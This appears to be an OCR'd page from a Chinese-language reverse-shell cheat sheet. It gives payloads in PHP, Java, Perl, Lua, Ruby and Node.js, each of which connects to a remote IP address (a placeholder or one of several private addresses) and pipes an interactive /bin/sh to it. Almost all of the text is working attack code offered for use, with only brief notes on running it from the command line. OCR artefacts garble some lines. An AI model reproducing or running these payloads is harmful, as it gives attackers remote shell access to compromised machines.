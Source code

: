 ```
`$sock=fsockopen("公网IP",端口);` `exec("/bin/sh -i <&3 >&3 2>&3");`
```

命令行执行 php -r '代码'

java反弹shell

* * *

```
`public class Revs {` `/**` `* @param args` `* @throws Exception` `*/``public static void main(String[] args) throws Exception {` `// TODO Auto-generated method stub` `Runtime r = Runtime.getRuntime();` `String cmd[]= {"/bin/bash","-c","exec` `5<>/dev/tcp/192.168.3.251/8080;cat <&5 | while read line; do $line 2>&5 >&5; done"};` `Process p = r.exec(cmd); p.waitFor(); } }``public class Test {` `public static void main(String[] args) throws Exception {` `// TODO Auto-generated method stub``  Runtime r=Runtime.getRuntime();` `Process p=r.exec(new String[]{"/bin/bash","-c","bash -i >& /dev/tcp/192.168.3.251/8888 0>&1"});`  `p.waitFor();`  `}` `}`
```

Perl反弹Shell

* * *

```
`use Socket;` `socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp")); if(connect(S,sockaddr_in(端口,inet_aton("公网IP"))))` `{``open(STDIN,">&S");` `open(STDOUT,">&S");` `open(STDERR,">&S");` `exec("/bin/sh -i");` `};`
```

命令行执行 perl -e ‘代码’

```
`perl -MIO -e '$p=fork;` `exit,if($p);` `$c=new` `IO::Socket::INET(PeerAddr,"1.1.1.1:8080");` `STDIN->fdopen($c,r);` `$~->fdopen($c,w);system$_ while<>;'`
```

Lua

* * *

```
`lua -e` `"require('socket');require('os');t=socket.tcp();t:connect('192.168.3.251','80 80');os.execute('/bin/sh -i <&3 >&3 2>&3');"`
```

Ruby

* * *

```
`ruby -rsocket -e 'exit if` `fork;c=TCPSocket.new("192.168.3.251","8080");while(cmd=c.gets);IO.popen(cmd," r"){|io|c.print io.read}end'`
```

Node.js

* * *

```
`(function(){` `var net = require("net"),` `cp = require("child_process"),` `sh = cp.spawn("/bin/sh", []);` `var client = new net.Socket();` `client.connect(8080, "10.17.26.64", function(){` `client.pipe(sh.stdin);` `sh.stdout.pipe(client);` `sh.stderr.pipe(client);` `});` `return /a/;` `})();`
```
